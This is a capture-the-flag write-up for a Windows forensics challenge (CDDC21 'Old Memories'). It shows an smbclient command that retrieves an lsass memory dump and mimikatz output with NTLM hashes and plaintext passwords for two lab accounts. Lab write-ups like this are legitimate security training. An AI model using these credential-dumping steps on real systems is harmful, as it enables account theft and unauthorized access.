

# Old Memories

## CATEGORY

Windows

## Challenge

The file you have found in the shared folder looks like a memory dump that may contain user passwords. You need these passwords for your next mission.

300 points

## Hint(s)

None used

## Solution

We get the memory dump through smbclient with liam.a.

    smbclient \\\\gdc.local\\Forensics --user liam.a

From there, we get a lsass.dmp file which we can run mimikatz on.

From there, we get a .txt file which contains the flag and John's credentials.

mimikatz # sekurlsa::LogonPasswords

    Authentication Id : 0 ; 920378 (00000000:000e0b3a)
    Session           : Interactive from 2
    User Name         : Flag
    Domain            : DESKTOP-2QFHHML
    Logon Server      : DESKTOP-2QFHHML
    Logon Time        : 10/6/2021 2:51:50 pm
    SID               : S-1-5-21-2198713953-2006436724-2838398043-1002
        msv :
        [00000005] Primary
        * Username : Flag
        * Domain   : DESKTOP-2QFHHML
        * NTLM     : 596c4994f88d93d0718bdea487092f11
        * SHA1     : 45b9d6c67c871a7c763e3a062c8e0684415e6834
        tspkg :
        wdigest :
        * Username : Flag
        * Domain   : DESKTOP-2QFHHML
        * Password : CDDC21{lsa$$_DUMP_password}
        kerberos :
        * Username : Flag
        * Domain   : DESKTOP-2QFHHML
        * Password : (null)
        ssp :
        credman :
    ...
    Authentication Id : 0 ; 195058 (00000000:0002f9f2)
    Session           : Interactive from 1
    User Name         : John
    Domain            : DESKTOP-2QFHHML
    Logon Server      : DESKTOP-2QFHHML
    Logon Time        : 10/6/2021 2:44:43 pm
    SID               : S-1-5-21-2198713953-2006436724-2838398043-1001
        msv :
        [00000005] Primary
        * Username : John
        * Domain   : DESKTOP-2QFHHML
        * NTLM     : 53bb900f229aa32d546f54523a96de67
        * SHA1     : 1075eeefce15aa2008f2e0594babccc09cdf5d4b
        tspkg :
        wdigest :
        * Username : John
        * Domain   : DESKTOP-2QFHHML
        * Password : #johnIStheBEST!
        kerberos :
        * Username : John
        * Domain   : DESKTOP-2QFHHML
        * Password : (null)
        ssp :
        credman :

## Flag

    CDDC21{lsa$$_DUMP_password}
